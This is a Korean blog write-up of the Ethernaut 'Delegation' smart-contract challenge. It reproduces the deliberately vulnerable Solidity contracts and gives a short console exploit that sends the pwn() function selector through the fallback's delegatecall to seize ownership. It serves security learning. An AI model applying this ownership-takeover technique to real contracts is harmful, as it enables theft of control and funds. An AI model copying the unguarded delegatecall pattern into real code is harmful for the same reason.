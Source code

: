 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 6) Delegation  
date: '2022-01-09 00:43:00'
author: 한성원
tags: ethernaut Token vulnerability
categories: 취약점분석
---
```



# 👋 1. Delegation
__Difficulty 4/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- instance의 ownership을 가져오면 승리한다.

- - -

## 코드 분석
분석은 주석에!

```solidity

contract Delegate {
    // owner의 contract
    address public owner;
    
    // constructor: set parameter _owner as owner of contract
    constructor(address _owner) public {
        owner = _owner;
    }
    
    //set msg.sender as owner
    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    // owner of contract
    address public owner;
    // Delegate contract
    Delegate delegate;
    
    //constructor with parameter delegate contract address
    constructor(address _delegateAddress) public {
        // set delegate as Delegate contract address
        delegate = Delegate(_delegateAddress);
        // set owner as deployer
        owner = msg.sender;
    }

    //fallback function
    fallback() external {
        //delegate에 delegatecall을 보낸다. 
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 ownership을 가져오는 것이다.

만약 우리가 가지고 있다면 우선 여기서 말해주는 힌트를 보자!
1. delegatecall
2. Fallback function
3. method id
를 알면 도움이 될 것이라고 말한다. 

### Delegate Call
delegate call은 일전에 내가 취약점 시리즈에서 다룬 적 있다! solidity official docs와 내 글을 보면 이해가 될 것이다.
[DelegateCall](https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/) <= Click
[Solidity Docs](https://docs.soliditylang.org/en/v0.8.10/introduction-to-smart-contracts.html) <= Click

### fallback 
Fallback 함수는 contract에서 함수를 실행시킬때 함수가 존재하지 않는다면 실행되는 function이다.

### method id
This is derived as the first 4 bytes of the Keccak hash of the ASCII form of the signature
즉 4 byte의 Keccak hash라고 생각하면 된다.

우리가 owner를 가져오기 위한 시나리오는 이렇다.
1. pwn()를 4 byte의 keccak hash로 하나의 변수에 저장한다.
2. Delegation contract에 1번에서 만든 변수를 data로 지정하고 transaction을 보낸다.
3. Delegation contract의 owner를 확인해본다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 기존의 owner를 확인한다.
await contract.owner()

// web3 library를 사용한다.
// encodePwn라는 변수에 pwn()을 4 byte keccak hash로 변형해 저장한다.
const encodePwn = web3.eth.abi.encodeFunctionSignature("pwn()")

// Delegation contract의  fallback function을 call한다. 
await contract.sendTransaction({data: encodePwn})

// owner가 자신인 것을 확인한다.
await contract.owner()
```

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
delegatecall 은 low level function이라 아직 내가 완벽하게 이해했다고 말할 수는 없을 것 같다. ethernaut을 다 풀어본 후에 EVM에 대해 좀 더 깊히 배워야겠다는 생각이 든다. 왜냐면 나는 그냥 smart contract 개발자가 아닌 auditor가 되고싶기 때문이다!!!! 앞으로도 화이팅하자!


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DelegateCall 취약점 :https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/
- Solidity Docs delegate call: https://docs.soliditylang.org/en/v0.8.10/introduction-to-smart-contracts.html

```toc

```
